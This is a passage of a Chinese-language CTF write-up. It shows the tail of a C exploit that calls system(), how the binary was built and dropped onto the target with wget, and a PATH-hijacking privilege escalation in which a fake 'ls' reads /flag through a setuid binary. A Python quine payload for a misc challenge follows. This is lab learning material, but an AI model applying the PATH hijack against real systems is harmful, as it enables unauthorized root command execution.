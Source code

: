 ```c
        strcat(work, towork);
    }
    system(work);
    return 0;
}
```

靶机上是没有gcc的，所以就在vps上编译然后部署，连上靶机用wget获取，之后`chmod 777`赋予执行权限

然后报错了，glibc的版本不兼容，所以在vps上用docker起了个和靶机一样的debian11来编译

```dockerfile
FROM debian:11

COPY poc_RE.c /usr/src/poc_RE.c

RUN sed -i 's/deb.debian.org/mirrors.tuna.tsinghua.edu.cn/g' /etc/apt/sources.list \
    && apt-get update && apt-get install -y gcc

WORKDIR /usr/src

RUN gcc poc_RE.c -o poc_RE
RUN mkdir /output && cp exp_DP /output/poc_RE

CMD ["ls", "/output"]

#启动容器后再用docker cp命令把容器内的poc_RE复制出来
```

成功通过检验获得了`ls`的输出结果 ~~然后就卡住了~~ 

问了一下获得提示，用环境变量劫持命令执行。

因为执行`ls`的时候会根据`$PATH`来寻找可执行文件，所以在环境变量前面加上自建路径就能让命令执行自己设置的可执行文件；而`find`此时已经`setuid(0)`，所以可以用于读取flag

```bash
#pwd = /opt/activemq
touch ls
echo "cat /flag" > ls
chmod 777 ls
export PATH = /opt/activemq:$PATH
```

![RE2FLAG](https://oss.kiracoon.top/pic/202404140204808.png)





### MISC

#### 与ai聊天

反向复读，~~这样子肯定不是ai~~，检索到 [hackergame2020-自复读的复读机](https://blog.skk.moe/post/hackergame-2020-write-up/#Zi-Fu-Du-De-Fu-Du-Ji)

```python
# 正向自复读：_='_=%r;print (_%%_)';print (_%_) 

#payload
_=')]1-::[_%%_(tnirp;%r=_';print(_%_[::-1])
```
